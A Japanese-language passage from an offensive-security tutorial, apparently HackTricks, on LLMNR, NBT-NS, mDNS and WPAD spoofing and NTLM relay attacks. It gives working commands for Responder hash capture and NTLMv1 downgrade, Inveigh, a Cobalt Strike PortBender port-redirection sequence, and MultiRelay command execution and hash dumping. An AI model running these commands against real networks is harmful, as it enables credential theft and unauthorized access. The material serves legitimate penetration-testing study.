 # LLMNR、NBT-NS、mDNS/DNS、WPADおよびリレーアタックのスプーフィング

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**か**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter**で**@hacktricks_live**をフォローする
- **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>

## ネットワークプロトコル

### ローカルホスト解決プロトコル
- **LLMNR、NBT-NS、およびmDNS**：
- Microsoftおよび他のオペレーティングシステムは、DNSが失敗した場合にローカル名の解決にLLMNRおよびNBT-NSを使用します。同様に、AppleおよびLinuxシステムはmDNSを使用します。
- これらのプロトコルは、UDPを介した認証されていないブロードキャスト性質により、傍受およびスプーフィングの影響を受けやすくなっています。
- [Responder](https://github.com/lgandx/Responder)を使用して、これらのプロトコルをクエリするホストに偽の応答を送信することで、サービスをなりすますことができます。
- Responderを使用したサービスのなりすましに関する詳細情報は[こちら](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)にあります。

### Web Proxy Auto-Discovery Protocol (WPAD)
- WPADはブラウザがプロキシ設定を自動的に検出することを可能にします。
- 検出は、DHCP、DNS、またはDNSが失敗した場合はLLMNRおよびNBT-NSによって行われます。
- Responderを使用して、クライアントを悪意のあるWPADサーバに誘導するWPAD攻撃を自動化できます。

### プロトコルポイズニングのためのResponder
- **Responder**は、LLMNR、NBT-NS、およびmDNSクエリを毒化するためのツールであり、クエリタイプに基づいて選択的に応答し、主にSMBサービスを対象としています。
- Kali Linuxには事前にインストールされており、`/etc/responder/Responder.conf`で設定可能です。
- Responderはキャプチャされたハッシュを画面に表示し、`/usr/share/responder/logs`ディレクトリに保存します。
- IPv4およびIPv6の両方をサポートしています。
- ResponderのWindowsバージョンは[こちら](https://github.com/lgandx/Responder-Windows)で入手できます。

#### Responderの実行
- デフォルト設定でResponderを実行するには：`responder -I <Interface>`
- より積極的なプロービングを行う場合（潜在的な副作用がある）：`responder -I <Interface> -P -r -v`
- NTLMv1のチャレンジ/レスポンスをキャプチャしてクラックを容易にするためのテクニック：`responder -I <Interface> --lm --disable-ess`
- WPADなりすましを有効にするには：`responder -I <Interface> --wpad`
- NetBIOSリクエストを攻撃者のIPに解決し、認証プロキシを設定する：`responder.py -I <interface> -Pv`

### Responderを使用したDHCPポイズニング
- DHCP応答のスプーフィングは、ARPポイズニングに比べてネットワークのルーティング情報を永続的に毒化することができ、より慎重な代替手段を提供します。
- ターゲットネットワークの構成について正確な知識が必要です。
- 攻撃の実行：`./Responder.py -I eth0 -Pdv`
- この方法は効果的にNTLMv1/2ハッシュをキャプチャできますが、ネットワークの混乱を避けるために注意深く取り扱う必要があります。

### Responderを使用した資格情報のキャプチャ
- Responderは上記のプロトコルを使用してサービスをなりすまし、ユーザーがなりすましサービスに認証しようとするときに資格情報（通常はNTLMv2チャレンジ/レスポンス）をキャプチャします。
- NetNTLMv1へのダウングレードやESSの無効化を試みることで、資格情報のクラックを容易にすることができます。

これらの技術を適切に使用するためには、適切な権限を確保し、不正アクセスや混乱を避けるために合法的かつ倫理的に行動することが重要です。

## Inveigh

Inveighは、Windowsシステム向けに設計されたペネトレーションテスターおよびレッドチーム向けのツールです。Responderと同様の機能を提供し、スプーフィングや中間者攻撃を実行します。このツールはPowerShellスクリプトからC#バイナリに進化し、[**Inveigh**](https://github.com/Kevin-Robertson/Inveigh)および[**InveighZero**](https://github.com/Kevin-Robertson/InveighZero)が主要なバージョンとして提供されています。詳細なパラメータや手順については、[**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters)を参照してください。

InveighはPowerShellを介して操作できます：
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
または、C# バイナリとして実行されます：
```bash
Inveigh.exe
```
### NTLM Relay Attack

この攻撃は、SMB認証セッションを利用してターゲットマシンにアクセスし、成功するとシステムシェルを取得します。主な前提条件は次のとおりです：
- 認証ユーザーは、中継ホストでのローカル管理者アクセス権を持っている必要があります。
- SMB署名が無効になっている必要があります。

#### 445ポートのフォワーディングとトンネリング

直接ネットワーク導入が困難なシナリオでは、ポート445のトラフィックをフォワーディングおよびトンネリングする必要があります。[**PortBender**](https://github.com/praetorian-inc/PortBender)のようなツールは、ポート445のトラフィックを別のポートにリダイレクトするのに役立ちます。これは、ローカル管理者アクセス権がドライバーのロードに利用可能な場合に重要です。

Cobalt StrikeでのPortBenderのセットアップと操作：
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM Relay Attack用のその他のツール

- **Metasploit**: プロキシ、ローカルおよびリモートホストの詳細を設定します。
- **smbrelayx**: SMBセッションを中継し、コマンドを実行したりバックドアを展開するためのPythonスクリプトです。
- **MultiRelay**: 特定のユーザーまたはすべてのユーザーを中継し、コマンドを実行したりハッシュをダンプするためのResponderスイートからのツールです。

必要に応じて各ツールはSOCKSプロキシを介して操作できるように構成でき、間接的なネットワークアクセスでも攻撃を可能にします。

### MultiRelayの操作

MultiRelayは _**/usr/share/responder/tools**_ ディレクトリから実行され、特定のIPアドレスまたはユーザーを対象とします。
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### NTLMリレーアタックを実行するための包括的なセットを形成するこれらのツールと技術。

### NTLMログインを強制する

Windowsでは、**特権アカウントの一部を任意のマシンに認証させることができる場合があります**。次のページを読んで詳細を学んでください：

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## 参考文献
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい場合**は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
